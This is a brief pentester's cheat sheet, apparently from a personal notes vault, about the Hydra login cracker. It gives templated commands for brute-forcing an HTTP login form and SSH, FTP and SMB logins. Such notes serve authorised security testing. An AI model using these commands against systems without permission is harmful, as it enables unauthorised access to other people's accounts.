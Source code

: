 ```yaml
---
id: hydra
aliases: []
tags:
  - Webapp/Exploitation/Brute-force/hydra
---
```


# Hydra

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra) -
a parallelized login cracker which supports many different protocols

- [Kali Linux Tools | Hydra](https://www.kali.org/tools/hydra/)
- [Arch manual pages - Hydra](https://man.archlinux.org/man/hydra.1.en)

## Usage

HTTP post form username crack

```sh
hydra -L {username_file} -p {test_password} {target_url} http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
```

Brute force SSH login

```sh
hydra -l {target_user} -P {password_list} {target_ip} ssh
```

Brute force FTP login

```sh
hydra -l {target_user} -P {password_list} {target_ip} ftp
```

Brute force SMB login

```sh
hydra -l {target_user} -P {password_list} {target_ip} smb -t 1
```
